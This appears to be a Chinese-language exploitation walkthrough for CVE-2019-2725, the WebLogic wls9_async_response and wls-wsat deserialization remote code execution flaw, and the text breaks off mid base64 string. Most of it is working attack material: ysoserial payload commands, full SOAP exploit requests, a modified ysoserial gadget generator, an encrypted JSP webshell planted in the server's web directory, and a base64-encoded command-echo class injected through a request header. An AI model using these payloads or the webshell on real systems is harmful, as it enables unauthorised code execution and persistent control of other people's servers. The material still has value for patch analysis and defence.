









## Weblogic wls9_async_response,wls-wsat 反序列化远程代码执行漏洞（CVE-2019-2725）

影响组件：bea_wls9_async_response.war, wls-wsat.war
影响版本：10.3.6.0, 12.1.3.0

### bea_wls9_async_response.war

访问 /_async/AsyncResponseService
返回如下页面，则可能存在此漏洞。


漏洞不仅存在于 /_async/AsyncResponseService
只要是在bea_wls9_async_response包中的Uri皆受到影响，可以查看web.xml得知所有受到影响的Uri，路径为：
`C:\Oracle\Middleware\user_projects\domains\base_domain\servers\AdminServer\tmp\_WL_internal\bea_wls9_async_response\8tpkys\war\WEB-INF\web.xml`

默认受到影响的Uri如下：
```
/_async/AsyncResponseService
/_async/AsyncResponseServiceJms
/_async/AsyncResponseServiceHttps
```

wls-wsat.war受影响的URI见XMLDecoder 反序列化漏洞（CVE-2017-10271 & CVE-2017-3506）

此漏洞实际上是CVE-2017-10271的又一入口，那么它是怎么绕过CVE-2017-10271的补丁，执行REC的呢。

先来看一下CVE-2017-10271的补丁代码：
```
public void startElement(String uri, String localName, String qName, Attributesattributes)throws SAXException {
            if(qName.equalsIgnoreCase("object")) {
               throw new IllegalStateException("Invalid element qName:object");
            } else if(qName.equalsIgnoreCase("new")) {
               throw new IllegalStateException("Invalid element qName:new");
            } else if(qName.equalsIgnoreCase("method")) {
               throw new IllegalStateException("Invalid element qName:method");
            } else {
               if(qName.equalsIgnoreCase("void")) {
                  for(int attClass = 0; attClass < attributes.getLength();++attClass) {
                     if(!"index".equalsIgnoreCase(attributes.getQName(attClass))){
                        throw new IllegalStateException("Invalid attribute for elementvoid:" + attributes.getQName(attClass));
                     }
                  }
               }
               if(qName.equalsIgnoreCase("array")) {
                  String var9 =attributes.getValue("class");
                  if(var9 != null &&!var9.equalsIgnoreCase("byte")) {
                     throw new IllegalStateException("The value of class attribute is notvalid for array element.");
                  }
```
其中CVE-2017-3506的补丁是过滤了object，CVE-2017-10271的补丁是过滤了new，method标签，且void后面只能跟index，array后面可以跟class，但是必须要是byte类型的。
绕过CVE-2017-10271补丁是因为class标签未被过滤所导致的，这点我们可以从Oracle 发布的CVE-2019-2725补丁看出来，
CVE-2019-2725补丁新增部分内容，将class加入了黑名单，限制了array标签中的byte长度。如下：
```
else if (qName.equalsIgnoreCase("class")) {
               throw new IllegalStateException("Invalid element qName:class");
}


else {
       if (qName.equalsIgnoreCase("array")) {
          String attClass = attributes.getValue("class");
          if (attClass != null && !attClass.equalsIgnoreCase("byte")) {
             throw new IllegalStateException("The value of class attribute is not valid for array element.");
          }
          String lengthString = attributes.getValue("length");
          if (lengthString != null) {
             try {
                int length = Integer.valueOf(lengthString);
                if (length >= WorkContextXmlInputAdapter.MAXARRAYLENGTH) {
                   throw new IllegalStateException("Exceed array length limitation");
                }
                this.overallarraylength += length;
                if (this.overallarraylength >= WorkContextXmlInputAdapter.OVERALLMAXARRAYLENGTH) {
                   throw new IllegalStateException("Exceed over all array limitation.");
                }
             } catch (NumberFormatException var8) {
```

复现：

#### Weblogic 10.3.6 利用oracle.toplink.internal.sessions.UnitOfWorkChangeSet构造函数执行readObject().

构造函数[参考](http://kickjava.com/src/oracle/toplink/essentials/internal/sessions/UnitOfWorkChangeSet.java.htm)

```
public UnitOfWorkChangeSet(byte[] bytes) throws java.io.IOException, ClassNotFoundException {
	java.io.ByteArrayInputStream  byteIn = new java.io.ByteArrayInputStream(bytes);
	ObjectInputStream objectIn = new ObjectInputStream(byteIn);
 //bug 4416412: allChangeSets set directly instead of using setInternalAllChangeSets
	allChangeSets = (IdentityHashtable)objectIn.readObject();
    deletedObjects = (IdentityHashtable)objectIn.readObject();
    }
```

UnitOfWorkChangeSet的参数是一个Byte数组，因此我们需要将Payload转换为Byte[].

利用ysoserial生成Payload
```
java -jar ysoserial-0.0.6-SNAPSHOT-BETA-all.jar Jdk7u21 "cmd /c echo lxhsec > servers/AdminServer/tmp/_WL_internal/bea_wls9_async_response/8tpkys/war/echoxxxxx.txt" > payload.txt
```

然后使用下列代码，将Payload进行转换成Byte[]
``` java
import java.beans.XMLEncoder;
import java.io.*;

public class Test{
    public static void main(String[] args) throws Exception {

        File file = new File("C:\\Users\\lxhsec\\Downloads\\JRE8u20_RCE_Gadget-master\\exploit.ser");
        //读取ysoserial文件生成的payload
        FileInputStream fileInputStream = new FileInputStream(file);

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream((int) file.length());

        int buf_size=1024;
        byte[] buffer=new byte[buf_size];
        int len=0;

        while(-1 != (len=fileInputStream.read(buffer,0,buf_size))){
            byteArrayOutputStream.write(buffer,0,len);
        }

        BufferedOutputStream oop = new BufferedOutputStream(new FileOutputStream(new File("C:\\Users\\lxhsec\\Downloads\\ysoserial-master\\target\\result.txt")));

        //使用jdk的xmlencoder把byte数组写入到 result.txt
        XMLEncoder xmlEncoder = new XMLEncoder(oop);
        xmlEncoder.flush();
        xmlEncoder.writeObject(byteArrayOutputStream.toByteArray());
        xmlEncoder.close();
        byteArrayOutputStream.close();
        fileInputStream.close();

    }
}
```

拼接Payload
```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: 127.0.0.1:7001
User-Agent: Mozilla/5.0 (Windows NT 5.2; rv:48.0) Gecko/20100101 Firefox/48.0
Accept:*/*
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: text/xml
Content-Length: 178338

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService">   <soapenv:Header> <wsa:Action>xx</wsa:Action><wsa:RelatesTo>xx</wsa:RelatesTo> <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">      
<java><class><string>oracle.toplink.internal.sessions.UnitOfWorkChangeSet</string><void>
//此处填写上面生成的XML。
</void></class></java></work:WorkContext></soapenv:Header><soapenv:Body><asy:onAsyncDelivery/></soapenv:Body></soapenv:Envelope>
```


效果:


使用ysoserial生成的只能适用于Windows平台，如果在Linux平台使用，则又要进行一次编译，兼容性有点不太好，因此我们可以
将ysoserial稍稍的进行更改。

这里我们将ysoserial的Gadgets.java文件进行更改。路径为：`ysoserial-master\src\main\java\ysoserial\payloads\util\Gadgets.java`.

``` java
    public static <T> T createTemplatesImpl ( final String command, Class<T> tplClass, Class<?> abstTranslet, Class<?> transFactory )
            throws Exception {
        final T templates = tplClass.newInstance();

        // use template gadget class
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(StubTransletPayload.class));
        pool.insertClassPath(new ClassClassPath(abstTranslet));
        final CtClass clazz = pool.get(StubTransletPayload.class.getName());
		
		// ---Start
		String cmd = "";

        if(command.startsWith("filename:")) {
            String filename = command.substring(9);
            try {
                File file = new File(filename);
                if (file.exists()) {
                    FileReader reader = new FileReader(file);
                    BufferedReader br = new BufferedReader(reader);
                    StringBuffer sb = new StringBuffer("");
                    String line = "";
                    while ((line = br.readLine()) != null) {
                        sb.append(line);
                        sb.append("\r\n");
                    }
                    cmd = sb.toString();
                } else {
                    System.err.println(String.format("filename %s not exists!", filename));
                    System.exit(0);
                }
            } catch (IOException e) {
                e.printStackTrace();
            }
        }else {
			// run command in static initializer
			// TODO: could also do fun things like injecting a pure-java rev/bind-shell to bypass naive protections
            cmd = "java.lang.Runtime.getRuntime().exec(\"" +
                    command.replaceAll("\\\\","\\\\\\\\").replaceAll("\"", "\\\"") +
                    "\");";
        }

		System.err.println(cmd);	
		// ---end
			
        clazz.makeClassInitializer().insertAfter(cmd);
        // sortarandom name to allow repeated exploitation (watch out for PermGen exhaustion)
        clazz.setName("ysoserial.Pwner" + System.nanoTime());
        CtClass superC = pool.get(abstTranslet.getName());
        clazz.setSuperclass(superC);

        final byte[] classBytes = clazz.toBytecode();

        // inject class bytes into instance
        Reflections.setFieldValue(templates, "_bytecodes", new byte[][] {
            classBytes, ClassFiles.classAsBytes(Foo.class)
        });

        // required to make TemplatesImpl happy
        Reflections.setFieldValue(templates, "_name", "Pwnr");
        Reflections.setFieldValue(templates, "_tfactory", transFactory.newInstance());
        return templates;
    }
```

保存后重新编译`mvn clean package -DskipTests`.

编译使用的是JDK1.8

修改后的ysoserial，将命令执行，转换成了代码执行。

整个兼容两边平台的代码TestCode.txt。
``` java
//TestCode.txt
String WEB_PATH = "servers/AdminServer/tmp/_WL_internal/bea_wls9_async_response/8tpkys/war/echolxhsec.jsp";
String ShellContent = "<%@page import=\"java.util.*,javax.crypto.*,javax.crypto.spec.*\"%><%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%><%if(request.getParameter(\"pass\")!=null){String k=(\"\"+UUID.randomUUID()).replace(\"-\",\"\").substring(16);session.putValue(\"u\",k);out.print(k);return;}Cipher c=Cipher.getInstance(\"AES\");c.init(2,new SecretKeySpec((session.getValue(\"u\")+\"\").getBytes(),\"AES\"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);%>";

try {
	java.io.PrintWriter printWriter = new java.io.PrintWriter(WEB_PATH);
	printWriter.println(ShellContent);
	printWriter.close();
} catch (Exception e) {
	e.printStackTrace();
}
```

执行：
`java -jar ysoserial-0.0.6-SNAPSHOT-all.jar Jdk7u21 "filename:C:\Users\lxhsec\Desktop\TestCode.txt" > result.txt`


reuslt.txt转换成Byte[]后执行，如下：


访问:`http://127.0.0.1:7001/_async/echolxhsec.jsp`


#### Weblogic 12.1.3 利用org.slf4j.ext.EventData构造函数执行readObject().

oracle.toplink.internal.sessions.UnitOfWorkChangeSet在Weblogic 12.1.3中不存在，因此需要重新找利用链。


Weblogic的黑名单只会过滤传入的第一层XML，使用org.slf4j.ext.EventData传入的第一层XML是String，因此绕过黑名单检测。

构造函数[参考](http://www.docjar.com/html/api/org/slf4j/ext/EventData.java.html)

``` java
public EventData(String xml) {
	ByteArrayInputStream bais = new ByteArrayInputStream(xml.getBytes());
	try {
	 XMLDecoder decoder = new XMLDecoder(bais);
	 this.eventData = (Map<String, Object>) decoder.readObject();
	} catch (Exception e) {
	 throw new EventException("Error decoding " + xml, e);
	}
}
```

构造写入文件Payload，如下。
```
POST /_async/AsyncResponseService HTTP/1.1
Host: 192.168.124.129:7001
User-Agent: Mozilla/5.0 (Windows NT 5.2; rv:48.0) Gecko/20100101 Firefox/48.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: text/xml
Content-Length: 962

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService">   <soapenv:Header> <wsa:Action>xx</wsa:Action><wsa:RelatesTo>xx</wsa:RelatesTo> <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">      
<java><class><string>oracle.toplink.internal.sessions.UnitOfWorkChangeSet</string><void><class><string>org.slf4j.ext.EventData</string><void><string>
<![CDATA[<java>
        <object class="java.io.PrintWriter">     
        <string>servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/test.jsp</string>
       <void method="println">
       <string>lxhsecTest</string>
       </void>
       <void method="close"/>
      </object>
      </java>]]></string></void></class>
</void></class></java></work:WorkContext></soapenv:Header><soapenv:Body><asy:onAsyncDelivery/></soapenv:Body></soapenv:Envelope>
```
结果:


### wls-wsat.war

#### Weblogic 10.3.6 回显构造.

bea_wls9_async_response.war的反序列化链无法造成回显，但是wls-wsat.war的却可以。

访问：/wls-wsat/CoordinatorPortType

以下测试均在 JDK 1.6.0_45 64bit 下进行。

拿[lufei](https://github.com/lufeirider/CVE-2019-2725)大佬的工具改改。

这里我直接使用lufei的工具，发现 > 等特殊字符，会被当成字符串。


这里将工具的exec函数更改，如下：
``` java
import java.io.*;

public class ResultBaseExec {
    public static String exec(String cmd) throws Exception {
        String osTyp = System.getProperty("os.name");
        Process p;
        if (osTyp != null && osTyp.toLowerCase().contains("win")) {
            //执行命令
//            p = Runtime.getRuntime().exec("cmd /c " + cmd);
            p = Runtime.getRuntime().exec(new String[]{"cmd.exe", "/c", cmd});
        }else{
            //执行命令
//            p = Runtime.getRuntime().exec("/bin/sh -c " + cmd);
            p = Runtime.getRuntime().exec(new String[]{"/bin/sh", "-c", cmd});
        }
        InputStream fis=p.getInputStream();
        InputStreamReader isr=new InputStreamReader(fis);
        BufferedReader br=new BufferedReader(isr);
        String line=null;
        String result = "";
        while((line=br.readLine())!=null)
        {
            result = result + line;
        }
        return result;
    }

}
```

编译成.class文件
`"C:\Program Files\Java\jdk1.6.0_45\bin\javac.exe" C:\Users\lxhsec\Downloads\WeblogicCode\src\main\java\ResultBaseExec.java`

接着将.class转换成Base64，当然你转成hex这些也可以。
``` java
import sun.misc.BASE64Encoder;

import java.io.ByteArrayOutputStream;
import java.io.FileInputStream;
import java.io.IOException;
import java.io.InputStream;

public class toBase64 {
    public static byte[] toByteArray(InputStream in) throws IOException, IOException {

        ByteArrayOutputStream out = new ByteArrayOutputStream();
        byte[] buffer = new byte[1024 * 4];
        int n = 0;
        while ((n = in.read(buffer)) != -1) {
            out.write(buffer, 0, n);
        }
        return out.toByteArray();
    }
    public static void main(final String[] args) throws Exception {
        BASE64Encoder base64Encoder = new BASE64Encoder();
		
		//class文件路径
        InputStream in = new FileInputStream("C:\\Users\\lxhsec\\Downloads\\WeblogicCode\\src\\main\\java\\ResultBaseExec.class");
        byte[] data = toByteArray(in);
        in.close();
        String encode = base64Encoder.encodeBuffer(data);
        System.out.println(encode);
    }
}
```


```
yv66vgAAADIAXAoAGgArCAAsCgAtAC4KAAgALwgAMAoACAAxCgAyADMHADQIADUIADYKADIANwgAOAgAOQoAOgA7BwA8CgAPAD0HAD4KABEAPwgAQAoAEQBBBwBCCgAVACsKABUAQwoAFQBEBwBFBwBGAQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEABGV4ZWMBACYoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvU3RyaW5nOwEADVN0YWNrTWFwVGFibGUHADQHAEcHAEgHADwHAD4BAApFeGNlcHRpb25zBwBJAQAKU291cmNlRmlsZQEAE1Jlc3VsdEJhc2VFeGVjLmphdmEMABsAHAEAB29zLm5hbWUHAEoMAEsAIAwATABNAQADd2luDABOAE8HAFAMAFEAUgEAEGphdmEvbGFuZy9TdHJpbmcBAAdjbWQuZXhlAQACL2MMAB8AUwEABy9iaW4vc2gBAAItYwcARwwAVABVAQAZamF2YS9pby9JbnB1dFN0cmVhbVJlYWRlcgwAGwBWAQAWamF2YS9pby9CdWZmZXJlZFJlYWRlcgwAGwBXAQAADABYAE0BABdqYXZhL2xhbmcvU3RyaW5nQnVpbGRlcgwAWQBaDABbAE0BAA5SZXN1bHRCYXNlRXhlYwEAEGphdmEvbGFuZy9PYmplY3QBABFqYXZhL2xhbmcvUHJvY2VzcwEAE2phdmEvaW8vSW5wdXRTdHJlYW0BABNqYXZhL2xhbmcvRXhjZXB0aW9uAQAQamF2YS9sYW5nL1N5c3RlbQEAC2dldFByb3BlcnR5AQALdG9Mb3dlckNhc2UBABQoKUxqYXZhL2xhbmcvU3RyaW5nOwEACGNvbnRhaW5zAQAbKExqYXZhL2xhbmcvQ2hhclNlcXVlbmNlOylaAQARamF2YS9sYW5nL1J1bnRpbWUBAApnZXRSdW50aW1lAQAVKClMamF2YS9sYW5nL1J1bnRpbWU7AQAoKFtMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9Qcm9jZXNzOwEADmdldElucHV0U3RyZWFtAQAXKClMamF2YS9pby9JbnB1dFN0cmVhbTsBABgoTGphdmEvaW8vSW5wdXRTdHJlYW07KVYBABMoTGphdmEvaW8vUmVhZGVyOylWAQAIcmVhZExpbmUBAAZhcHBlbmQBAC0oTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvU3RyaW5nQnVpbGRlcjsBAAh0b1N0cmluZwAhABkAGgAAAAAAAgABABsAHAABAB0AAAAdAAEAAQAAAAUqtwABsQAAAAEAHgAAAAYAAQAAAAMACQAfACAAAgAdAAABCwAFAAgAAACTEgK4AANMK8YAKyu2AAQSBbYABpkAH7gABwa9AAhZAxIJU1kEEgpTWQUqU7YAC02nABy4AAcGvQAIWQMSDFNZBBINU1kFKlO2AAtNLLYADk67AA9ZLbcAEDoEuwARWRkEtwASOgUBOgYSEzoHGQW2ABRZOgbGABy7ABVZtwAWGQe2ABcZBrYAF7YAGDoHp//fGQewAAAAAgAeAAAAMgAMAAAABQAGAAcAFgAJADIADABLAA4AUAAPAFoAEABlABEAaAASAGwAEwB3ABUAkAAXACEAAAAuAAT8ADIHACL8ABgHACP/ACAACAcAIgcAIgcAIwcAJAcAJQcAJgcAIgcAIgAAIwAnAAAABAABACgAAQApAAAAAgAq
```

生成之后使用test_code测试，发现>被解析成了我们想要的。

替换
``` java
clazz.makeClassInitializer()
        .insertAfter(""
                + "String ua = ((weblogic.servlet.internal.ServletRequestImpl)((weblogic.work.ExecuteThread)Thread.currentThread()).getCurrentWork()).getHeader(\"lfcmd\");\n"
                + "String R = \"yv66vgAAADIAXAoAGgArCAAsCgAtAC4KAAgALwgAMAoACAAxCgAyADMHADQIADUIADYKADIANwgAOAgAOQoAOgA7BwA8CgAPAD0HAD4KABEAPwgAQAoAEQBBBwBCCgAVACsKABUAQwoAFQBEBwBFBwBGAQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEABGV4ZWMBACYoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvU3RyaW5nOwEADVN0YWNrTWFwVGFibGUHADQHAEcHAEgHADwHAD4BAApFeGNlcHRpb25zBwBJAQAKU291cmNlRmlsZQEAE1Jlc3VsdEJhc2VFeGVjLmphdmEMABsAHAEAB29zLm5hbWUHAEoMAEsAIAwATABNAQADd2luDABOAE8HAFAMAFEAUgEAEGphdmEvbGFuZy9TdHJpbmcBAAdjbWQuZXhlAQACL2MMAB8AUwEABy9iaW4vc2gBAAItYwcARwwAVABVAQAZamF2YS9pby9JbnB1dFN0cmVhbVJlYWRlcgwAGwBWAQAWamF2YS9pby9CdWZmZXJlZFJlYWRlcgwAGwBXAQAADABYAE0BABdqYXZhL2xhbmcvU3RyaW5nQnVpbGRlcgwAWQBaDABbAE0BAA5SZXN1bHRCYXNlRXhlYwEAEGphdmEvbGFuZy9PYmplY3QBABFqYXZhL2xhbmcvUHJvY2VzcwEAE2phdmEvaW8vSW5wdXRTdHJlYW0BABNqYXZhL2xhbmcvRXhjZXB0aW9uAQAQamF2YS9sYW5nL1N5c3RlbQEAC2dldFByb3BlcnR5AQALdG9Mb3dlckNhc2UBABQoKUxqYXZhL2xhbmcvU3RyaW5nOwEACGNvbnRhaW5zAQAbKExqYXZhL2xhbmcvQ2hhclNlcXVlbmNlOylaAQARamF2YS9sYW5nL1J1bnRpbWUBAApnZXRSdW50aW1lAQAVKClMamF2YS9sYW5nL1J1bnRp